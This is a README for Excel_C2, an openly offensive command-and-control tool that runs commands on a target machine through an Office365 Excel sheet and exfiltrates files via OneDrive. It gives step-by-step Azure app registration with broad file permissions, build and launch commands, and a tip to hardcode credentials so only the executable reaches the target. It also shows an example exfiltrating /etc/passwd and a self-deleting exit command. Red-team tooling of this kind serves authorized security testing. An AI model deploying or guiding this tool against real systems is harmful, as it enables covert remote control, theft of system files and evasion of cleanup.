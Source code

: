 # Excel_C2

Excel_C2 (Excel Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using an Office365 Excel sheet and exfiltrates data OneDrive.

## Recignition

This area is intigrated a project I've been working on with a good friend of mine.  The original can be found here:

[Grantok/Excel-C2](<https://github.com/Grantok/Excel-C2> )

## Requirements

- Azure AD login with permissions to:
  - Register Application
    - Apply Delegated and Application permissions for Files.ReadWrite.All
  - Grant admin consent confirmation
- O365 Subscription

## Set up

1. **Get User ID**
    1. Log into the [Azure Active Directory Admin center](https://aad.portal.azure.com/) with a Global Administrator Account.
    1. Select **Users** on the left navigation panel
    1. Select your user and note the **Object ID**.  This will be used for the `userId` (or `USER_ID` environment variable)
      ![User Id](https://raw.githubusercontent.com/TechRinger/media/main/images/user-id.png)

1. **Register an Azure Portal App**
    1. Expand **Azure Active Directory** on the left navigation panel
    1. Expand **Applications**
    1. Select **App registrations** \
      ![App registrations](https://raw.githubusercontent.com/TechRinger/media/main/images/aad-portal-app-registrations.png)
    1. Click the  **New Registration** button \
      ![New registration](https://raw.githubusercontent.com/TechRinger/media/main/images/new-registration.png)
    1. Enter a name for your new app, select "Accounts in this organizational directory only (MSFT only - Single Tenant)", and click the **Register** button \
      ![New application](https://raw.githubusercontent.com/TechRinger/media/main/images/new-application.png)
    1. On the application page, note the **Application (client) ID** and **Directory (tenant) ID** values.  They will be used for `clientId` and `tenantId` respectively (or `CLIENT_ID` and `TENANT_ID` environment variables) \
      ![App IDs](https://raw.githubusercontent.com/TechRinger/media/main/images/app-ids.png)
    1. Click **API permissions** \
      ![API permissions](https://raw.githubusercontent.com/TechRinger/media/main/images/api-perms.png)
    1. Click the **Add a permission** button \
      ![Add permission](https://raw.githubusercontent.com/TechRinger/media/main/images/add-perm-button.png)
    1. Click the **Microsoft Graph** button \
      ![Add MS Graph](https://raw.githubusercontent.com/TechRinger/media/main/images/add-graph-perm.png)
    1. Click the **Application permissions** button \
      ![Application Permissions](https://raw.githubusercontent.com/TechRinger/media/main/images/app-perm.png)
    1. Type "files" to filter the permissions.  Then expand the **Files** option and check the box next to "Files.ReadWriteAll" and click the **Add permissions** button \
      ![File Permissions](https://raw.githubusercontent.com/TechRinger/media/main/images/files-perm.png)
    1. Add the same "Files.ReadWrite.All" under the **Delegated permissions** area
    1. Back on the "API permissions" page, click the **Grant admin consent for MSFT** button and **Yes** in the banner \
      ![Grant Consent](https://raw.githubusercontent.com/TechRinger/media/main/images/grant-consent.png)
    1. In the naviation menu, select **Certificates & secrets** and click the **New client secret** button \
      ![New Secret](https://raw.githubusercontent.com/TechRinger/media/main/images/new-secret.png)
    1. Enter a description and click the **Add** button \
      ![Add Secret](https://raw.githubusercontent.com/TechRinger/media/main/images/add-secret.png)
    1. Copy the "Value" field of your newly created secret.  This will not be displayed again once you leave this page.  This will be used for the `clientSecret` field (or `CLIENT_SECRET` environment variable)\
      ![Copy Secret](https://raw.githubusercontent.com/TechRinger/media/main/images/copy-secret.png)

1. **Create the Excel Spreadsheet**

    1. Login with the same account to [OneDrive](https://onedrive.live.com)
    1. Click on the arrow next to the **New** button and select **Excel workbook**.  The file name will be used for the `fileName` field (or `FILE_NAME` environment variable)\
      ![New Workbook](https://raw.githubusercontent.com/TechRinger/media/main/images/new-excel.png)

1. **Setup Environment**

    There are 3 different ways to configure the credentials for the app.
    1. You can hardcode the values in the root.go file before building
    1. You can set environment variables that will be read during the execution of the application
    1. You can pass the values as flags to the application when starting

    ***Below are the flags for the different methods:***

    | Credential | root.go Variable | Environment Variable | Comamnd Flag |
    | --- | --- | --- | --- |
    | Tenant ID from Azure App #9 | tenantId | TENANT_ID | tenant |
    | Client ID from Azure App #9 | clientId | CLIENT_ID | client |
    | Client Secret from Azure App #19 | clientSecret | CLIENT_SECRET | secret |
    | User Id from Azure App #3 | userId | USER_ID | user |
    | Filename from Excel Spreadsheet #2 | fileName | FILE_NAME | file |

1. **Build executable**

    ```bash
    git clone https://github.com/grantok/Excel-C2
    cd Excel-C2
    go build excel-c2.go
    ```

1. **Start the C2**

    ```none
    excel-c2 --tenant <tenantId> --client <clientId> --secret <clientSecret> --file <fileId> --user <userId> --verbos <true|false>
    ```

   > Note: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go)

### Features

- Command execution using Office365 Excel Sheet as a console
- Download files on the target using Microsfot OneDrive
- Upload files (data exfiltration) using Microsft OneDrive
- Exit

#### Command execution

The program will perform a request to the spreedsheet every 30 sec (by default) to check for new commands.
Enter the command in column **A** and the output will be added to column **B**

#### Upload File

The "upload" command will upload a file from the target machine to OneDrive.  The syntax is:

 ```none
upload;<remote path>
 ```

Example:

 ```none
upload;/etc/passwd
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Download File

The "download" command will download a file from OneDrive to the target machine.  The syntax is:

 ```none
download;<OneDrive file name>;<remote path>
 ```

Example:

 ```none
download;down.txt;/home/user/downloaded.txt
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

> NOTE: From *os* documentation:
> *If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

### WorkFlow

![Workflow](https://raw.githubusercontent.com/TechRinger/media/main/images/workflow.png)

### Demo

![Demo](https://raw.githubusercontent.com/TechRinger/media/main/images/demo.gif)

### Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

### Support the project

Pull request
